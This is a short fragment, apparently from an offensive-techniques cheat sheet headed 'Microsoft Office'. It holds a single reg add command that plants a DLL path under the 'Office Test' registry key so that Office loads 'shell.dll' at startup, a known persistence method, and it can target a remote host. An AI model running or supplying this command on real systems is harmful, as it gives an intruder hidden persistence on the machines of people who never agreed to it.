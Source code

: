 # Microsoft Office

```
C:\> reg add "[\\<IP>\]HKCU\SOFTWARE\Microsoft\Office Test\Special\Perf" /t REG_SZ /d "C:\path\to\shell.dll" /f
```